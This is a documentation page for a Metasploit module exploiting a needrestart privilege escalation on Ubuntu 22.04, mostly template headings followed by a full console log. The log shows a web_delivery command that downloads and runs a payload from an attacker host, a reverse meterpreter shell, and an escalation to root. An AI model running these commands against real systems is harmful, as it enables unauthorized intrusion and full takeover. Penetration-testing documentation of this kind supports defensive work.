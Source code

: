 The following is the recommended format for module documentation. But feel free to add more content/sections to this.
One of the general ideas behind these documents is to help someone troubleshoot the module if it were to stop
functioning in 5+ years, so giving links or specific examples can be VERY helpful.

## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use [module path]`
1. Do: `run`
1. You should get a shell.

## Options
List each option and how to use it.

### Option Name

Talk about what it does, and how to use it appropriately. If the default value is likely to change, include the default value here.

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Version and OS

```
msf6 > use exploit/multi/script/web_delivery
998
run[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set lport 4998
lport => 4998
msf6 exploit(multi/script/web_delivery) > set srvport 8998
srvport => 8998
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4998 
[*] Using URL: http://1.1.1.1:8998/dKtdkMS
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Ejq8lHli --no-check-certificate http://1.1.1.1:8998/dKtdkMS; chmod +x Ejq8lHli; ./Ejq8lHli& disown
[*] 2.2.2.2   web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4998 -> 2.2.2.2:52004) at 2024-11-22 12:07:55 -0500

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: h00die
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/ubuntu_needrestart_lpe
 verbose true
run
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set lport 4977
lport => 4977
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set session 1
session => 1
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set verbose true
verbose => true
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > run

[*] Started reverse TCP handler on 1.1.1.1:4977 
[*] Running automatic check ("set AutoCheck false" to disable)

[+] The target appears to be vulnerable. Vulnerable needrestart version 3.5-5ubuntu2.1 detected on Ubuntu 22.04
[*] Writing '/tmp/.1K8Hy2tOtq' (250 bytes) ...
[*] Uploading payload: /tmp/.1K8Hy2tOtq
[*] Uploading c_stub: /tmp/.hnPKdLeU2s.c
[*] Uploading py_script: /tmp/.FzzlJ
[*] Uploading build and run script: /tmp/.h0IkpDa
[*] Launching exploit, and waiting for needrestart to run...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] chown: changing ownership of '/tmp/.1K8Hy2tOtq': Operation not permitted
[*] Error processing line 1 of /usr/lib/python3/dist-packages/zope.interface-5.4.0-nspkg.pth:
[*] 
[*]   Traceback (most recent call last):
[*]     File "/usr/lib/python3.10/site.py", line 192, in addpackage
[*]       exec(line)
[*]     File "<string>", line 1, in <module>
[*]   ImportError: dynamic module does not define module export function (PyInit_importlib)
[*] 
[*] Remainder of file ignored
[*] #########################
[*] 
[*] Dont mind the error message above
[*] 
[*] Waiting for needrestart to run...
[*] Payload owned by: root
[+] Deleted /tmp/.1K8Hy2tOtq
[+] Deleted /tmp/.hnPKdLeU2s.c
[+] Deleted /tmp/.FzzlJ
[+] Deleted /tmp/.h0IkpDa
[+] Deleted /tmp/importlib
[*] Meterpreter session 2 opened (1.1.1.1:4977 -> 2.2.2.2:57644) at 2024-11-22 12:08:28 -0500

meterpreter > 
meterpreter > getuid
Server username: root
```
